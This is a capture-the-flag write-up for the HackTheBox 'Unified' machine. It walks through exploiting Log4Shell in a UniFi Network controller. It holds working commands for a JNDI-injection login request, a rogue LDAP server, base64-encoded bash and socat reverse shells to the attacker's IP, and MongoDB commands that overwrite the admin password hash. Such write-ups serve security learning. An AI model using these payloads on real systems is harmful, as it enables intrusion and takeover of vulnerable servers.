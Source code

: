 # HACKTHEBOX - Unified

```bash
export IP=10.129.72.187
```

## Enumeration
```bash
sudo nmap -sV -sC -v -oN nmap.txt $IP
```

**nmap result**:
```
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
6789/tcp open  ibm-db2-admin?
8080/tcp open  http-proxy
8443/tcp open  ssl/nagios-nsca Nagios NSCA
| http-title: UniFi Network
|_Requested resource was /manage/account/login?redirect=%2Fmanage
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| ssl-cert: Subject: commonName=UniFi/organizationName=Ubiquiti Inc./stateOrProvinceName=New York/countryName=US
| Subject Alternative Name: DNS:UniFi
| Issuer: commonName=UniFi/organizationName=Ubiquiti Inc./stateOrProvinceName=New York/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
.....
1 service unrecognized despite returning data....

rustscan: 8880/tcp open  cddbp-alt?
```

**Port 8443**: `Unifi 6.4.54`

`A vulnerable` third-party library used in `UniFi Network Version 6.5.53 and earlier` `(Log4J CVE-2021-44228)` allows a malicious actor to control the application. 

This vulnerability is `fixed` in UniFi Network Version 6.5.54 and later.

Ok Log4j, Unifi network vulnerability: https://www.sprocketsecurity.com/blog/another-log4j-on-the-fire-unifi

Automate log4j vulnerabilities in unifi software: https://github.com/puzzlepeaches/Log4jUnifi 

**Summary**:

The `Unifi Network Application` is used to `manage Ubiquiti software and hardware solutions`. This software suite can be installed natively on Linux and Windows or within a Linux Docker container. 

The application is most commonly hosted on `port 8443` via HTTPS. Navigating to the webpage for the application in a web browser will look something like the following:

![unifi login version](Log4Unifi_1_Login_Version.png)

Versions prior to 6.5.54 are vulnerable to remote code execution. Once you’ve identified a vulnerable instance, it’s simple to walk through exploitation.

## Exploitation
The vulnerability is in the `rememberme` (or in some versions the username) value issued in the login request shown below:
```
https://10.129.72.187:8443/api/login
Host: ....

{"username":"asdf","password":"asdfas","remember":"<PAYLOAD>","strict":true}
```

`Test for the vulnerability` in localhost, or you can test by trigger a dns query

```bash
nc -nlvp 8989
curl 'https://10.129.72.187:8443/api/login' --data-raw '{"username":"a","password":"a","remember":"${jndi:ldap://10.10.14.52:8989}","strict":true}' --compressed --insecure
# got connection --> vulnerable!!
```

First, you need to clone and build the tool, `rogue-jndi`(The project *contains LDAP & HTTP servers* for exploiting insecure-by-default Java JNDI API) from the GitHub:
```bash
# One-liner
git clone https://github.com/veracode-research/rogue-jndi && cd rogue-jndi && sudo apt install maven && mvn package
```

Once the Jar is compiled, you’ll have to craft a command to deliver the reverse shell. 
```bash
echo 'bash -c bash -i >&/dev/tcp/10.10.14.52/4444 0>&1' | base64
# YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuNTIvNDQ0NCAwPiYxCg==
```

With that Base64 output, build your command in `rogue-jndi`, then start your `rogue-jndi LDAP server` up.
```bash
java -jar rogue-jndi/target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuNTIvNDQ0NCAwPiYxCg==}|{base64,-d}|{bash,-i}" --hostname "10.10.14.52"
```

To get a reverse shell, issue this cURL command:
```bash
curl 'https://10.129.72.187:8443/api/login' --data-raw '{"username":"a","password":"a","remember":"${jndi:ldap://10.10.14.52:1389/o=tomcat}","strict":true}' --compressed --insecure
```

Start up a netcat listener on the port you specified while building your shell and issue the cURL command. If you did everything correctly, you should see UniFi Network Application grab the payload from rogue-jndi and then get a callback: (picture here!!)


We got reverse shell!!

What tool do we use to intercept the traffic, indicating the attack was successful: `tcpdump`

**user flag**: `HTB{6ced1a6a89e666c0620cdb10262XXXXX}`

## Post Exploitation
```bash
for PORT in {1..1000}; do timeout 1s bash -c "</dev/tcp/localhost/$PORT" > /dev/null; done
```
nothing, just for bash!!

Upgrade to interactive shell
```bash
which python # no!
which python3 # no!

# Using socat
# Host socat standalone binaries and from remote machine `curl -o`
# Kali Machine
socat file:`tty`,raw,echo=0 tcp-listen:4445
# Remote Machine
./socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.52:4445
```

What port do we need to inspect intercepted traffic for: `LDAP port: 389` (our server LDAP port)

What port is the MongoDB service running on: `27117`
```bash
ps aux | grep mongo
# unifi         67  0.4  4.2 1099648 85800 ?       Sl   11:49   0:44 bin/mongod --dbpath /usr/lib/unifi/data/db --port 27117 --unixSocketPrefix /usr/lib/unifi/run --logRotate reopen --logappend --logpath /usr/lib/unifi/logs/mongod.log --pidfilepath /usr/lib/unifi/run/mongod.pid --bind_ip 127.0.0.1
# unifi      20857  0.0  0.0  11468  1112 pts/0    S+   14:39   0:00 grep mongo
```

Connect to MongoDB:
```bash
locate mongo # /usr/bin/mongo
/usr/bin/mongo --port 27117
```

MongoDB Command:
```bash
dbs; # default database --> ace
show databases
use ace
show collections # admin
db.admin.find() # enumerate users
```

What is the default database name for UniFi applications: `ace`

```json
{ "_id" : ObjectId("61ce278f46e0fb0012d47ee4"), "name" : "administrator", "email" : "administrator@unified.htb", "x_shadow" : "$6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4.", ......}
```

What is the function to add data to the database in MongoDB: `db.admin.insert()`

What is the function we use to update users within the database in MongoDB: `db.admin.update()`

**hints**: It's not crackable

**Reference**: https://community.spiceworks.com/topic/2175763-hash-tool-to-reset-ubiquiti-unifi-controller-admin-password
```bash
# http://sha512crypt.pw/
# hash: hello -> $6$CU3a0DfD5u.QeV12$5NWCSeU4SsCxabV9bSNotwhoacGVqCfT1Lf9KVFIyc8XvW.N4OE9Hl.j1NGxjPeyHEL1/E8lbD5XNHBwFjrSn.

# overwrite administrator password
db.admin.update( { name: "administrator" }, {$set: { x_shadow: "$6$CU3a0DfD5u.QeV12$5NWCSeU4SsCxabV9bSNotwhoacGVqCfT1Lf9KVFIyc8XvW.N4OE9Hl.j1NGxjPeyHEL1/E8lbD5XNHBwFjrSn." } } );
# WriteResult({ "nMatched" : 1, "nUpserted" : 0, "nModified" : 1 })
```

Back to the Controller Login Pannel, log in with: `administrator:hello`

![ssh root password](ssh-password.png)

**SSH root password**: `NotACrackablePassword4XXXXX`
```bash
ssh root@$IP
# NotACrackablePassword4XXXXX
```

**root flag**: `HTB{e50bc93c75b634e4b272d2f771cXXXXX}`
